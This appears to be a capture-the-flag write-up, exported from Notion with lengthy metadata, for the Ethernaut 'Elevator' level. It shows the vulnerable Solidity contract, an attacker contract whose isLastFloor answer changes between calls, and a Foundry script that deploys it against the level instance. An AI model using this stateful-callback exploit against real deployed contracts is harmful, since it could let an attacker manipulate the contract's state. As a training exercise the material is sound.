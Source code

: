 ```yaml
---
title: "Elevator"
date: "2024-02-05"
lastmod: "2024-02-14T16:51:00.000Z"
draft: false
difficulty: "⭐⭐"
prev: "Re-entrancy-6ea65e4888e349dabdc4ca12c8e6d22d"
weight: 12
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/11"
next: "Privacy-0141c59931824d74a8311099eb338d5d"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "59c41c69-4afa-45c6-8e60-3000da840a2e"
  created_time: "2024-02-12T13:39:00.000Z"
  last_edited_time: "2024-02-14T16:51:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel11.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "2fa50c76-9c63-4f19-b03a-b8fb1889da7c"
        name: "⭐⭐"
        color: "blue"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Re-entrancy-6ea65e4888e349dabdc4ca12c8e6d22d"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Re-entrancy-6ea65e4888e349dabdc4ca12c8e6d22d"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-02-05"
        end: null
        time_zone: null
    weight:
      id: "%5Dyda"
      type: "number"
      number: 12
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/11"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Privacy-0141c59931824d74a8311099eb338d5d"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Privacy-0141c59931824d74a8311099eb338d5d"
          href: null
    type:
      id: "s%7DKc"
      type: "select"
      select:
        id: "OnJy"
        name: "docs"
        color: "default"
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Elevator"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Elevator"
          href: null
  url: "https://www.notion.so/Elevator-59c41c694afa45c68e603000da840a2e"
  public_url: null
UPDATE_TIME: "2024-02-23T22:50:05.266Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


---


title: Elevator
weight: 4
type: docs
next: re-entrancy
prev: privacy


[Level11](https://ethernaut.openzeppelin.com/level/11) - ⭐⭐


---


This elevator won't let you reach the top of your building. Right?


### Things that might help:

- Sometimes solidity is not good at keeping promises.
- This `Elevator` expects to be used from a `Building`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```


Solution:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

interface Elevator {
  function top() external view returns(bool); 
  function floor() external view returns(uint); 
  function goTo(uint _floor) external; 
}

contract Building {
  Elevator public elevator;
  bool lastFloor;

  function installElevator(address _elevator) public {
    elevator = Elevator(_elevator);  
  }

  function isLastFloor(uint) public returns (bool) {
    if (lastFloor == false) {
      lastFloor = true;
      return false;
    }
    return true;
  }

  function attack(uint _floor) public {
    elevator.goTo(_floor); 
  }
}
```


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {Building} from "../src/11.sol";

interface Elevator {
  function top() external view returns(bool); 
  function floor() external view returns(uint); 
  function goTo(uint _floor) external; 
}

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_11");

        vm.startBroadcast(deployerPrivateKey);

        console.logUint(address(addr).balance);

        Elevator elevator = Elevator(addr);

        Building building = new Building();
        building.installElevator(addr);

        console.logBool(elevator.top());
        console.logUint(elevator.floor());

        building.attack(0);

        console.logBool(elevator.top());
        console.logUint(elevator.floor());

        vm.stopBroadcast();

    }
}
```


You can use the `view` function modifier on an interface in order to prevent state modifications. The `pure` modifier also prevents functions from modifying the state.
Make sure you read [Solidity's documentation](http://solidity.readthedocs.io/en/develop/contracts.html#view-functions) and learn its caveats.


An alternative way to solve this level is to build a view function 
which returns different results depends on input data but don't modify 
state, e.g. `gasleft()`.

